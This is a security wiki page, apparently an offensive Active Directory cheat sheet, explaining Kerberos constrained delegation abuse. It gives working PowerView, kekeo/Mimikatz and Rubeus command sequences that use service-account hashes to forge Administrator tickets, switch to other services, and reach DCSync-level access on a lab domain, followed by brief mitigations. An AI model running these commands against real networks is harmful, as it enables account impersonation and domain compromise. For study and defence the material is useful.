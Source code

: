 # Constrained Delegation

## Constrained Delegation

Using this a Domain admin can allow 3rd parties to impersonate a user or computer against a service of a machine.

* **Service for User to self \(**_**S4U2self**_**\):** If a **service account** has a _userAccountControl_ value containing [TRUSTED\_TO\_AUTH\_FOR\_DELEGATION](https://msdn.microsoft.com/en-us/library/aa772300%28v=vs.85%29.aspx) \(T2A4D\), then it can obtains a TGS for itself \(the service\) on behalf of any other user.
* **Service for User to Proxy\(**_**S4U2proxy**_**\):** A **service account** could obtain a TGS on behalf any user to the service set in **msDS-AllowedToDelegateTo.** To do so, it first need a TGS from that user to itself, but it can use S4U2self to obtain that TGS before requesting the other one.

**Note**: If a user is marked as ‘_Account is sensitive and cannot be delegated_ ’ in AD, you will **not be able to impersonate** them.

This means that if you **compromise the hash of the service** you can **impersonate users** and obtain **access** on their behalf to the **service configured** \(possible **privesc**\).  
Also, you **won't only have access to the service that user is able to impersonate, but also to any service that uses the same account as the allowed one** \(because the SPN is not being checked, only privileges\). For example, if you have access to **CIFS service** you can also have access to **HOST service**.  
Moreover, notice that if you have access to **LDAP service on DC**, you will have enough privileges to exploit a **DCSync**.

Enumerate from Powerview
```bash
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth
```


Using kekeo.exe + Mimikatz.exe
```bash
#Obtain a TGT for the Constained allowed user
tgt::ask /user:dcorp-adminsrv$ /domain:dollarcorp.moneycorp.local /rc4:8c6264140d5ae7d03f7f2a53088a291d
#Get a TGS for the service you are allowed (in this case time) and for other one (in this case LDAP)
tgs::s4u /tgt:TGT_dcorpadminsrv$@DOLLARCORP.MONEYCORP.LOCAL_krbtgt~dollarcorp.moneycorp.local@DOLLAR CORP.MONEYCORP.LOCAL.kirbi /user:Administrator@dollarcorp.moneycorp.local /service:time/dcorp-dc.dollarcorp.moneycorp.LOCAL|ldap/dcorpdc.dollarcorp.moneycorp.LOCAL
#Load the TGS in memory
Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL_ldap~ dcorp-dc.dollarcorp.moneycorp.LOCAL@DOLLARCORP.MONEYCORP.LOCAL_ALT.kirbi"'  
```


Using Rubeus
```bash
#Obtain a TGT for the Constained allowed user
.\Rubeus.exe asktgt /user:websvc /rc4:cc098f204c5887eaa8253e7c2749156f /outfile:TGT_websvc.kirbi
#Obtain a TGS of the Administrator user to self
.\Rubeus.exe s4u /ticket:TGT_websvc.kirbi /impersonateuser:Administrator /outfile:TGS_administrator
#Obtain service TGS impersonating Administrator (CIFS)
.\Rubeus.exe s4u /ticket:TGT_websvc.kirbi /tgs:TGS_administrator_Administrator@DOLLARCORP.MONEYCORP.LOCAL_to_websvc@DOLLARCORP.MONEYCORP.LOCAL /msdsspn:"CIFS/dcorp-mssql.dollarcorp.moneycorp.local" /outfile:TGS_administrator_CIFS
#Impersonate Administrator on different service (HOST)
.\Rubeus.exe s4u /ticket:TGT_websvc.kirbi /tgs:TGS_administrator_Administrator@DOLLARCORP.MONEYCORP.LOCAL_to_websvc@DOLLARCORP.MONEYCORP.LOCAL /msdsspn:"CIFS/dcorp-mssql.dollarcorp.moneycorp.local" /altservice:HOST /outfile:TGS_administrator_HOST
#Load ticket in memory
.\Rubeus.exe ptt /ticket:TGS_administrator_CIFS_HOST-dcorp-mssql.dollarcorp.moneycorp.local
```


### Mitigation

* Disable kerberos delegation where possible
* Limit DA/Admin logins to specific services
* Set "Account is sensitive and cannot be delegated" for privileged accounts.

\*\*\*\*[**More information in ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-unrestricted-kerberos-delegation)\*\*\*\*

